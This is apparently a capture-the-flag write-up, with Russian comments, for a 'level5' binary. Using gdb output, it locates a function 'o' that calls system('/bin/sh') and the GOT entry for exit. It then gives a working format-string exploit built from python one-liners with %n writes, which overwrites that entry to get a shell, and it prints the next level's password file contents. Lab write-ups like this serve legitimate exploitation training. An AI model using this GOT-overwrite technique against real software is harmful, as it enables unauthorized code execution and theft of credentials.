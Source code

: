 
# Вызов функции 'fgets', защищенной от переполнения буфера
=> 0x80484e5 <n+35>:	call   0x80483a0 <fgets@plt>

# Можно увидеть вызов 'printf' с тем что мы ввели
=> 0x80484f3 <n+49>:	call   0x8048380 <printf@plt>

# Мы также можем увидеть функцию 'o', которая вызывает 'system ("/ bin / sh")'
# Но эта функция не вызывается

# Сначала нам нужно найти адрес этой функции 'o'
gdb> x o
0x80484a4 <o>:	0x83e58955

# Функция 'main' вызывает функцию 'n', которая возвращает вместо этого вызывает 'exit'
=> 0x80484ff <n+61>:	call   0x80483d0 <exit@plt>

# Затем мы найдем адрес функции выхода в Global Offset Table

gdb> disass n
[...]
0x080484ff <+61>:	call   0x80483d0 <exit@plt>
[...]
gdb> disass 0x80483d0
[...]
0x080483d0 <+0>:	jmp    DWORD PTR ds:0x8049838
[...]
gdb> x 0x8049838
0x8049838 <exit@got.plt>:	0x080483d6

# 'o' находится по адресу 0x80484a4, а 'exit' находится по адресу '0x8049838' в Global Offset Table

# Сначала мы воспользуемся атакой Format String, чтобы найти адрес 'exit'
$> python -c "print '\x38\x98\x04\x08' + '%x '*4" | ./level5
8200 b7fd1ac0 b7ff37d0 8049838

# Затем мы используем тот же эксплойт, чтобы изменить адрес 'exit' на адрес 'o'
$> python -c "print '\x38\x98\x04\x08' + '%134513824x%4\$n'" > /tmp/payload5
$> cat /tmp/payload5 - | ./level5
> cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
